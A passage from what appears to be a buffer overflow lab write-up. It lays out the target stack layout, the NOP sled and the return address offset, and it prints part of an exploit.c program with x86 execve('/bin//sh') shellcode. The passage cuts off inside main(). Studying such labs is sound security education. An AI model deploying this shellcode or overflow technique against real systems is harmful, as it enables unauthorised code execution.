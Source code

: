 Note that `0xbfffe758` and `0xbfffe744` are 12 bytes apart; coincidentally, that is the length of the `buffer` variable.

## Performing the Buffer Overflow Attack

### The Desire Stack Contents After the Buffer Overflow Attack

We desire the following contents of the stack in order to execute our shell code.

| address      | value        | meaning        |
|--------------|--------------|----------------|
| `0xbfffe949` | `0x6850c031` | upper end of `shellcode` |
| `0xbfffe931` | `0x0bb09980` | lower end of `shellcode` |
| ...          | `NOP`        | ...            |
| `0xbfffe75c` | `0xbfffe75f` | return address |
| `0xbfffe758` | `NOP`        | base pointer   |
| ...          | `NOP`        | ...            |
| `0xbfffe744` | `NOP`        | local `buffer` |
| ...          | ...          | ...            |
| `0xbfffe730` | `0xb7fc4ff4` | stack pointer  |

Notice that the return address is *not* the address of the beginning of the shell code; it's the next 2 words after the return address in memory. This is because execution the `NOP` instructions has no effect, so we do not need to hit the beginning of the shell code exactly.

### The Proper Offsets in `exploit.c`

This means we need to modify the return address located at `0xbfffe75c` to point to the first instruction in the double word located at `0xbfffe931`.
We can do this by setting the return address to point to any of the `NOP` instructions before the shell code begins.

To accomplish this, we use the following program to create the binary file to overflow the buffer with.

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

const char shellcode[] =
    "\x31\xc0"      // xorl    %eax, %eax
    "\x50"          // pushl   %eax
    "\x68""//sh"    // pushl   $0x68732f2f
    "\x68""/bin"    // pushl   $0x6e69622f
    "\x89\xe3"      // movl    %esp, %ebx
    "\x50"          // pushl   %eax
    "\x53"          // pushl   %ebx
    "\x89\xe1"      // movl    %esp, %ecx
    "\x99"          // cdq
    "\xb0\x0b"      // movb    $0x0b, %al
    "\xcd\x80"      // int     $0x80
;

void main()
{
    char buffer[517];
    FILE *badfile;
```